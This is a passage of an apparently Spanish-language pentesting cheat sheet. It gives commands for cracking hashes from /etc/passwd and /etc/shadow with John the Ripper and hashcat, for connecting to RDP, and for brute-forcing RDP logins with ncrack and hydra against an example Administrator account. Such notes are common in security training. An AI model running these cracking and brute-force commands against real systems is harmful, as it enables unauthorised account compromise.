3. **Crackear Hashes de /etc/passwd y /etc/shadow:**
   ```bash
   unshadow passwd.txt shadow.txt > unshadow.txt
   john unshadow.txt --wordlist=/usr/share/wordlists/rockyou.txt
   ```

4. **Usando Hashcat:**
   Crackear hashes con Hashcat:
   ```bash
   hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
   ```

   - **-m** especifica el tipo de hash.
   - Más detalles sobre Hashcat en: [https://hashcat.net/wiki/doku.php?id=hashcat](https://hashcat.net/wiki/doku.php?id=hashcat)
  
# 🖥️ RDP (Remote Desktop Protocol)

### 1. **Reconocimiento:**
```bash
xfreerdp /v:[IP] -sec-nla /u:""
```

### 2. **Conexión a RDP:**
```bash
xfreerdp /u:[USER] /p:[PASS] /v:[IP] /cert-ignore
```

### 3. **Conexión con resolución dinámica y portapapeles:**
```bash
xfreerdp /v:<RHOST> /u:<USERNAME> /p:<PASSWORD> /dynamic-resolution +clipboard
```

### 4. **Conexión alternativa (rdesktop):**
```bash
rdesktop <RHOST>
```

### 5. **Cracking RDP con ncrack:**
```bash
ncrack -vv --user user -P wordlist.txt [IP]:3389
```
  _Ejemplo_: 
```bash
ncrack -vv --user Administrator -P rockyou.txt 192.168.1.50:3389
```

### 6. **Cracking RDP con hydra:**
```bash
hydra -l usuario -P lista.txt rdp://IP -t 4
```
  _Ejemplo_: 
```bash
hydra -l Administrator -P rockyou.txt rdp://192.168.1.50 -t 4
```
